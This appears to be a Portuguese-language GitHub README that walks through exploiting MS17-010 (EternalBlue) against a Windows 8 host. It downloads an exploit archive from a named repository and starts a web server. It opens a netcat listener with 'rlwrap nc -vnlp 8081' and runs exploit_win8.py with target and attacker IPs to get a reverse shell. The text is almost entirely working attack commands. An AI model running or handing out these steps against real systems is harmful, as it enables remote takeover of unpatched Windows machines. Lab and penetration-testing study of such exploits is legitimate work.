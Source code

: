 Realize o download do exploit, descompacte o arquivo ms17-010.tar.gz.
<br>

https://github.com/d3fudd/MS17-010_EternalBlue/raw/main/ms17-010.tar.gz
```
tar xf ms17-010.tar.gz
```
```
cd ms17-010/win8/
```

### Exploração
Inicie um web server dentro de *win8/* **(em outro terminal)**:
```
python3 -m http.server 80
```
Prepare o Kali para receber a conexão reversa **(em outro terminal)**:
```
rlwrap nc -vnlp 8081
```
Execute o **exploit_win8.py** com python2 informando nos parâmetros o IP do Windows alvo, IP do Kali e a porta que receberá a shell reversa:
```
python2 exploit_win8.py 192.168.10.114 192.168.100.3 8081
```

![win8poc](https://user-images.githubusercontent.com/76706456/197260759-83dbc652-7974-4f36-98b6-2df9737bc3e5.gif)
